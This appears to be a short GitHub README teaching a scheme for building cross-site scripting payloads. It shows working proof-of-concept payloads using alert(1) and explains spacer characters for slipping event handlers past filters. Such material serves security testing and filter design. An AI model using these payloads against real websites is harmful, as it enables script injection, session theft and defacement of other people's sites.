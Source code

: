 # **XSS-payloads**
### XSS payload scheme

Aside from the classic XSS payload <script>alert(1)</script> and source based ones like "<a href=x>",we can start building payloads using the following simple scheme:
```
<tag handler=code>
````
Where we have the HTML tag, the event handler associated with it and the javascript code to execute.
But although it’s true for short payloads like <svg onload=alert(1)>, some payloads like <b onclick=alert(1)> that requires user
 interaction for example, needs a text to be clicked for the javascript code be triggered:
```
<b onclick=alert(1)>click me!
```
 
Some payloads also need tag attribute(s) inside it:

```
<img src=x onerror=alert(1)>
```
And some needs something before it:

```
<frameset><frame src onload=alert(1)>
```
So let’s make a better scheme:

```
extra1 <tag extra2 handler=code> extra3
```
It has the following variation:
```
extra1 <tag handler=code extra2> extra3
```
Almost there. There’s also an important thing to consider: the spaces inside the tag. In the major browsers, we can have a slash between tag and handler, for example:

```
<svg/onload=alert(1)>
```
This and other characters are allowed between tag and handler, tag and attribute, attribute and handler etc without change the syntax.

Here is our final scheme:
```
extra1 <tag spacer1 extra2 spacer2 handler spacer3 = spacer4 code spacer5> extra3
```
Variation:
```
extra1 <tag spacer1 handler spacer3 = spacer4 code spacer5 extra2> extra3 (without spacer2)
```
